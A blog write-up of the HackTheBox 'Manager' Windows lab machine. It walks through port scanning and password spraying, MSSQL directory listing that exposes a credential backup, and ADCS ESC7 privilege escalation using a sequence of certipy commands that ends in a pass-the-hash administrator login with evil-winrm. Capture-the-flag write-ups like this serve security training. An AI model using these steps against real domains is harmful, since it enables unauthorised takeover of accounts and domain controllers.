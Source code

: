 ```yaml
---
layout: post
title: "Manager-Windows-Medium"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/5ca8f0c721a9eca6f1aeb9ff4b4bac60.webp
---
```


# Manager

HackTheBox: Medium

## 1: Enumeration
<br/><br/>
- nmap scanning
<br/><br/>
![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled.png' | relative_url }})
<br/><br/>
With Rustscan we found 
<br/><br/>
445 SMB
1433 mssql
464 kpass
88 Kerberos

<br/><br/>
![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_1.png' | relative_url }})
<br/><br/>
That’s how we find active users in the machine
<br/><br/>
~Spray all the users found using Crackmapexec
<br/><br/>
![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_2.png' | relative_url }})
<br/><br/>
## 2: User flag
<br/><br/>
 Crackmapexec is a useful tool but it is not maintained anymore so we are going to chanche a .py file something with the ssl version.

<br/><br/>
Enum shared resources

<aside>
💡 Impacket-smbclient
Impacket-mssqlclient

</aside>
<br/><br/>
![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_3.png' | relative_url }})
<br/><br/>
Once inside of shared resources we were able to access the database tables, we started looking into their contents. We hace content in xp_dirtree
<br/><br/>
We can check documentation to find web page resources 
<br/><br/>
```bash
 EXEc xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
```
<br/><br/>
find a website backup  with creds, use wget to download it locally, using evil-wirm to access
<br/><br/>
![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_4.png' | relative_url }})
<br/><br/>
## 3: Priv esc
<br/><br/>
```bash
whoami /groups /priv
```
<br/><br/>
![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_5.png' | relative_url }})
<br/><br/>
Evil winrm a advantage, the capacity of upload and create files from remote machine
<br/><br/>
```bash
upload cerfity.exe
./Certify.exe find /vulnerable
```
<br/><br/>
Now we’re gonna use certipy, with an auth we get  specific vulnerabilities and exploit them
<br/><br/>
```bash
certipy find -u user@--- -p "rtgre" -enable -vulnearable -target manager.htb
```
<br/><br/>
Vulnerable to ESC7 find mor info [HERE](https://github.com/ly4k/Certipy#esc7) and exploit
<br/><br/>

```bash
#Add an officer named 'raven' to the CA named 'manager-DC01-CA' given managecertificate rights
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password '<password>' 

#Enable a certificate template named 'SubCA' for the CA 'manager-DC01-CA'.
certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password '<password>' 

#Submit a certificate request for the template 'SubCA' to the CA 'manager-DC01-CA'.
#It fails but we just need the private key to sign the certificate to issue directly
certipy req -username raven@manager.htb -password '<password>' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn administrator@manager.htb 

#Issue the certificate based on the request submitted.
certipy ca -ca "manager-DC01-CA" -issue-request <private_key_id> -username 'raven@manager.htb' -password '<password>' 

#Retrieve the issued certificate.
certipy req -username 'raven@manager.htb' -password '<password>' -ca "manager-DC01-CA" -target manager.htb -retrieve <private_key_id>
```
<br/><br/>
You’ve got a hash for admin with
<br/><br/>

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236
```
<br/><br/>
Whether for some reason it shows you an error message try to sync servers like this
<br/><br/>
```bash
sudo ntpdate -u manager.htb
```
<br/><br/>
And finally
<br/><br/>
```bash
evil-winrm -i 10.10.11.236 -u administrator -H password
```
<br/><br/>
Machine pwned!!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
